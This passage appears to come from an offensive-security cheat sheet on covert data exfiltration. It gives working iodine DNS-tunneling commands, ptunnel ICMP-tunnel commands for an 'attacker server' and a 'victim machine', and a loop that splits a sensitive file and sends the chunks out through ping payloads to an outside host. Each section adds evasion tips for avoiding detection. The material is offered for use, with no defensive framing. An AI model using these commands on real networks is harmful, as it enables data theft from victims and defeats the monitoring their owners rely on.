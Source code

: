 - **Advanced DNS Tunneling**: Set up full communication channels over DNS.
  - **Example (iodine setup)**:
    ```bash
    # On attacker server
    iodined -f -c -P password 10.0.0.1 yourdomain.com
    
    # On victim machine
    iodine -f -P password yourdomain.com
    # Then use the tunnel for any TCP/IP traffic
    ```
  - **Evasion Tip**: DNS tunneling can be detected by analyzing query frequency and size. Keep traffic minimal and avoid constant streams of queries.

## 4. ICMP Tunneling

ICMP (ping) traffic is often allowed through firewalls and minimally monitored.

- **Basic ICMP Data Transfer**: Hide data in ICMP echo request/reply packets.
  - **Tools**: `icmptunnel`, `ptunnel`
  - **Example (Manual ICMP Exfiltration)**:
    ```bash
    # Split file into chunks
    split -b 32 sensitive_data.txt chunks_
    # Send each chunk in ICMP packets
    for chunk in chunks_*; do
      ping -c 1 -p $(xxd -p $chunk | tr -d '\n') your-server.com
      sleep 1
    done
    ```
  - **Example (Using ptunnel)**:
    ```bash
    # On attacker server
    ptunnel -x password
    
    # On victim machine
    ptunnel -p your-server.com -lp 8000 -da your-server.com -dp 22 -x password
    # Then SSH through the tunnel
    ssh -p 8000 user@localhost
    ```
  - **Evasion Tip**: ICMP tunneling can be detected by analyzing packet sizes and frequencies. Keep data transfers small and infrequent. Avoid predictable patterns in packet timing.

